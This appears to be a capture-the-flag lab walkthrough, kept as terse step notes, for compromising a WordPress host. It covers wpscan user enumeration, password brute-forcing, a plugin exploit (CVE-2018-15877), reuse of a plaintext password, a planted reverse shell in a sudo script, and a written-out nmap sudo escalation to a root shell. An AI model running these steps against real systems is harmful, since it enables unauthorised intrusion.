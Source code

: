 #found wordpress on port 80

#ran wpscan to enumerate users:
	admin
	graham
	jens
	sarah
	mark

#made a wordlist as told in the hint:
	cat ~/Desktop/rockyou.txt | grep k01 > pass.txt

#ran brute force using wpscan

#found pass:
	mark:helpdesk01

#enumerated and saw activity monitor plugin installed

#used an exploit CVE-2018-15877

#changed ip, port, removed -lvnp

#got shell

#found txt file in mark directory
	Things to do:

	- Restore full functionality for the hyperdrive (need to speak to Jens)
	- Buy present for Sarah's farewell party
	- Add new user: graham - GSo7isUM1D4 - done
	- Apply for the OSCP course
	- Buy new laptop for Sarah's replacement

#dropped in grahams

#sudo -l shows we can use backups.sh using jens

#added a rev shell one liner in it

#used the command:
	sudo -u jens /home/jens/backups.sh

#got a shell on jens

#sudo -l shows nmap can be run as root

#used the command:
	TF=$(mktemp)
	echo 'os.execute("/bin/sh")' > $TF
	sudo nmap --script=$TF

#got root!
